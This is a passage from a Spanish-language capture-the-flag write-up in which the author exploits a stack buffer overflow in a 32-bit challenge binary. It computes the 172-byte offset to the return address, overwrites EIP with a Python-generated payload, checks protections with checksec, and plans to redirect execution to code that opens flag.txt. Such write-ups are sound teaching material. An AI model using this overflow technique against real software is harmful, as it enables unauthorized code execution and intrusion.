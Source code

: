 Sí, `ebp-0xa8`. `EBP` tendrá una dirección, sutraemos `0xa8` de esto y cargaremos su dirección efectiva => `lea` (load effective address) a `eax` y luego la enviaremos a la stack con `push` donde será el argumentos de la función `gets`.

Todas las variables tienen su propio tamaño, en este caso es fácil saber cuál es el tamaño de esta variable simplemente convirtiendo el `0xa8` en un decimal que es 168. Bien, con 168 bytes completamos la variable, ahora tenemos que reemplazar cosas en la stack hasta que obtengamos a EIP y tomemos el control del programa. El assembly ya nos ha dicho que tenemos `0xa8` bytes hasta llegar a `EBP` ok, en esta arquitectura este registrador tiene 4 bytes, así que agreguemos 4 a nuestro número y tenemos 172.

¿Vamos a probar?

```bash
# aquí vamos a agregar el permiso para ejecutar el programa
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ chmod +x port-65144

# aquí entendemos como debe ser la entrada que le daremos al programa
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ ./port-65144
Enter your buffer: asdf
not this time

# aquí enviamos nuestra carga con 172 caracteres "A" y 4 "B" y vemos que el mensaje cambia a "Segmentation fault (core dumped)"
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ echo $(python3 -c "print('A' * 172)")BBBB | ./port-65144
Segmentation fault (core dumped)

# y aquí podemos comprobar el segfault
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ dmesg | tail -n 1
[39206.428987] port-65144[5871]: segfault at 42424242 ip 0000000042424242 sp 00000000ffba4d50 error 14 in libc-2.30.so[f7dc5000+1d000]
```

Este último mensaje nos dice que el `IP` o` EIP` tenía el valor `0000000042424242` y el segfault estaba en esta dirección. Si vemos <a href="https://www.ascii-code.com/" target="_blank">tabla ASCII</a>, podemos confirmar que el número `0x42` (hexadecimal) es el mismo que "B", sabiendo esto, y recordando que enviamos 4 "B" si el IP es `0000000042424242` 4 entradas de 42 .... hmm .... lo hicimos! Podemos pisar el "EIP".

Ahora que tenemos eso, veamos qué podemos hacer con este binario:

```bash
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ checksec port-65144
[*] '/home/reisraff/workdir/challs/port-65144/port-65144'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
reisraff@3dbbde46a935:~/workdir/challs/port-65144$
```

No es tan fácil, tenemos algunas <a href="https://en.wikipedia.org/wiki/Stack_buffer_overflow#Protection_schemes" target="_blank">propiedades de seguridad</a> habilitadas en este binario, el que lo hará más difícil es la <a href="https://en.wikipedia.org/wiki/NX_bit" target="_blank">NX</a> "no execute stack". Con eso, no podemos simplemente agregar código malicioso a nuestra carga y apuntar a su dirección, así que tenemos que leer el código un poco más, pero espera ... Recuerdo que teníamos algo como `flag.txt` y `open`, podemos apuntar a esa ubicación ...
